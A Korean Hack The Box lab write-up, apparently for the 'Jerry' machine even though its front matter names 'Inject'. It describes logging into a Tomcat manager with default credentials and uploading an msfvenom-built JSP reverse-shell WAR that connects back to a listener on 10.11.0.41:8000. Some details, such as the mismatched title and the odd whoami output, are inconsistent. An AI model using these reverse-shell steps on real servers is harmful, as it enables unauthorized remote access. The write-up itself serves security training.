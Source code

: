 ```yaml
---
date: '2023-03-15'
before : '2023-03-10'
after : '2023-03-15'
title: 'Hack The Box Machine : Inject'
categories: ['C-SEC', 'KOR', 'webhack', 'HTB']
summary: 'HTB 2023 Machine 중 하나인 inject의 풀이'
thumbnail: '../contentImages/jerry/jerry.png'
---
```


<aside>
💡 노션으로 써본 첫 블로그 글!
</aside>

### 0. 시작하기 전에

![jerry.png](../contentImages/jerry/jerry.png)

오늘 풀어볼 문제는 HTB의 가장 기본적인 머신중 하나인 제리이다. 푸는데에는 30분이 채 안 걸렸지만, 엉뚱한곳에서 막혀서 살짝 헤메긴 했지만 별 문제없이 풀 수 있었다. 난이도는 아주 쉽다.

### 1. Information Gathering사시

![1.png](../contentImages/jerry/1.png)

딱 8080포트에 http proxy 하나 열려 있었다. 들어가보니 대충 이런 Tomcat 설명 페이지이다. 매니저 앱을 들어가려고 하니 로그인을 하라고 하고, 틀리니 에러 페이지가 떴다.

![4.png](../contentImages/jerry/4.png)

이 부분에서 한참 헤맸다… 분명 다시 로그인을 하라고 떠야하는데 안뜨길래 엥?? 뭐지? 로그인이 의미가 없는 부분인가? 다른곳에 뭐가 있나? 아닌것같은데..하고 생각하다가 아무리생각해도 이상해서 인터넷을 검색해보니 다른사람들은 잘만 여러번 로그인을 하고 있던 것이다. 당연하게도 아까 내가 로그인 데이터 저장을 누르는 바람에 쿠키에 남아있어서 그랬다. (…) 그래서 그냥 쿠키 지우고 여러가지 Tomcat 기본 크레덴셜로 로그인 시도를 하다보니 로그인이 됐다.

![3.png](../contentImages/jerry/3.png)

### 2. Initial Foothold/Exploitation

이번 문제는 딱히 Privilege Escalation이 필요하지 않았다. Reverse Shell을 얻어보니 그냥 root였다.

![5.png](../contentImages/jerry/5.png)

앱을 탐색하니 저렇게 war 파일을 업로드 할 수 있는 function이 있다. 빠르게 msfvenom으로 reverse shell을 만들어서 업로드해보자.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.41 LPORT=8000 -f war -o revshell.war
=> 이 쉘을 웹 사이트에 업로드
nc -lvnp 8000 : listening server 시작
```

이렇게 업로드를 해주고 /shell.war을 방문하면 당연히 war 코드가 실행될 것이고, payload에 적은 대로 내 컴퓨터 8000번 포트에 shell이 연결된걸 확인할 수 있었다.

```bash
C:\ > whoami
Administarator\Service
```

확인해보니 이미 root 계정이 되어있다. 이곳저곳 탐색해보니 root.txt와 user.txt를 확인할 수 있었다.

### 3. 후기

솔직히 진짜 쉬운 문제고, 빨리 풀면 10분이면 풀 것 같은데, 쿠키를 안 지워서 더 걸렸다는게 자존심 상한다… 결국 다른 사람이랑 비교해보고 알아챈것도 너무너무 자존심 상한다… 그래도 실전에서 이런 실수 안하는게 어디야. 쉬운 문제지만 또 하나 배웠다.

## Source

- Hack The Box 2023
- Me!
